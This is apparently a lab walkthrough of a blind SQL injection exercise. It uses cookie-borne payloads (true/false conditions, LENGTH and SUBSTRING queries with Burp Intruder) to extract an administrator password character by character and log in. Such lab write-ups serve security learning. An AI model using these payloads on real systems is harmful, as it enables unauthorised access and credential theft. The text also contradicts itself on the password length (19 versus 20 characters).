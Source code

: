 # Lab: Blind SQL injection with conditional responses

## Description

* This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. *

---

# STEP 1: Verify Blind SQLi

The page with a normal tracking cookie

![image](https://user-images.githubusercontent.com/83407557/169717979-383b0251-ea74-43d2-980f-4b40ae2f6578.png)

## with a conditionally true payload of 

```sql
'and 'a'='a
```

![image](https://user-images.githubusercontent.com/83407557/169718045-1a2378d7-ae0f-4245-89b5-1b44198ee40b.png)

I get the welcome back message

## sending a conditionally false payload:

```sql
'and 'a'='b
```

![image](https://user-images.githubusercontent.com/83407557/169718103-df5dc3e6-0329-4db5-bab6-ed5af585af08.png)

being false the welcome back message goes away

# STEP 2: Determine target table, columns, and rows

Normally this step would involve conditionals to build out the names of the tables in the database and then their columns, however for this lab they are provided. My target is the password of the administrator user:

table: users

columns: username, password

row: administrator, target

# STEP 3: Determine the length of the administrator's password

I can use a greater than and sequential numbers. I should get the welcome back message until I go one number past the length of the password.

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
Greater than 1?
![image](https://user-images.githubusercontent.com/83407557/169718804-41d3570a-fe58-491e-b253-96966dc62fc6.png)
Greater than 2?
![image](https://user-images.githubusercontent.com/83407557/169718841-83cc12ec-e65d-4be9-9c8d-cbbcddb15e42.png)
Greater than 3?
![image](https://user-images.githubusercontent.com/83407557/169718861-1006c697-7726-4534-8914-7482e9709a4c.png)
ect...

until

![image](https://user-images.githubusercontent.com/83407557/169718920-b66bd139-2021-47ec-a95a-0466775a0b48.png)

Letting me know that the administrator's password is 19 character's long

# STEP 4: Using subsrings to build the password

Substrings from sql cheat sheet:

![image](https://user-images.githubusercontent.com/83407557/169719316-0a633d86-7e92-4286-8d86-46b20e3160b3.png)

So to see if the first letter is an a:

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

and to see if the second letter is an a

```sql
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```




if the first letter is not an a, no error message will show up. With burp intruder I can iterate through all letters and numbers until I get the welcome back message:

![image](https://user-images.githubusercontent.com/83407557/169726974-e9a22d24-4e04-4f88-9212-e20b937967f3.png)

![image](https://user-images.githubusercontent.com/83407557/169727014-af681e32-ae18-452c-bbc3-3186d8579c10.png)

and flagging the message:

![image](https://user-images.githubusercontent.com/83407557/169727041-58dfc1bf-575b-436f-a01c-6840db745f42.png)

I can see that the first letter is a d:

![image](https://user-images.githubusercontent.com/83407557/169727108-9a8bc96f-c2bf-47c5-8761-97e6d6dc1e45.png)

the second letter is an s:

![image](https://user-images.githubusercontent.com/83407557/169727227-4d8a19e9-4088-4c08-87b9-4ceeecbbf313.png)


until I build out all 20 characters by running this attack for all 19 characters in the password:

![image](https://user-images.githubusercontent.com/83407557/169728646-250de74d-3962-40fc-8d7b-670da0e8a730.png)

ds42d4fv8kw58ddpoq70

which allows me to log in

![image](https://user-images.githubusercontent.com/83407557/169729271-e9c4c0e9-e1a8-4056-94e8-dd1bdd20787b.png)
